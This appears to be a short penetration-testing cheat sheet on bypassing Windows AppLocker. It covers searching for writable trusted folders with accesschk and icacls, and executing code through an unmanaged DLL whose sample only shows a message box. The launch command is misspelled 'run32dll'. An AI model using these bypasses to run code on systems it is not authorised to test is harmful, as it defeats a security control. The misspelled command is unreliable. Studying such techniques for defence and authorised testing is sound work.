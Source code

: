 **TRUSTED FOLDERS:**

Default AppLocker rules only allows to execute programs located under these directories: C:\Program Files, C:\Program Files (x86), and C:\Windows.

However there may be subdirectories under C:\Program Files, C:\Program Files (x86), or C:\Windows that may have write and executable permisions. To do so we will use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
in conjuction with icacls:

```
1. accesschk.exe <user_name> C:\Windows -wus
2. icacls <directory>  -> on the posible directories to check if they got executable permision
```

**BYPASS WITH DLLs:**

The default ruleset doesn’t protect against loading arbitrary DLLs. So if we create an unmangaed DLL, we load it and then call methods of that unmanaged DLL, we could gain code execution:

```
1st Create an unmanaged DLL:
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)

{
  switch (ul_reason_for_call)
  {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
  MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}

2nd Compile the DLL

3rd Load and execute the run method of the DLL

C:\> run32dll testdll.dll,run
```

**ALTERNATE DATA STREAMS:**

